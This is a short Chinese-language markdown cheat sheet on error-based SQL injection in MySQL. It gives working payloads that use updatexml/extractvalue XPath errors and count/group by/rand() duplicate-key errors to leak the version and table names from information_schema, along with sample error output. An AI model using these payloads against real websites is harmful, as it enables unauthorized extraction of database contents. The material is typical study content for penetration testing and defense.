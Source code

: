## 报错注入

[知识点](https://xz.aliyun.com/t/253)

* 数据溢出

* xpath语法错误

    ```
    mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
    mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
    payload:
    id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
    id=1 union select updatexml(1,concat(0x7e,(select @@version),0x7e),1) 
    ## 第二种有可能会 列数不匹配
    ```

* 主键重复， count(), group by 在遇到rand()产生的重复值报错
```mysql
1 Union select count(*),concat((查询语句),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
```

有时候“查询语句”可能不让用union,也只能一行一行的显示，这时候需要用到limit命令，如下：

```mysql
concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x26,floor(rand(0)*2))x
```

[limit用法](https://blog.csdn.net/sinat_36246371/article/details/54582904)

limit a,b  :  从第a个开始，显示b个（a从0开始数）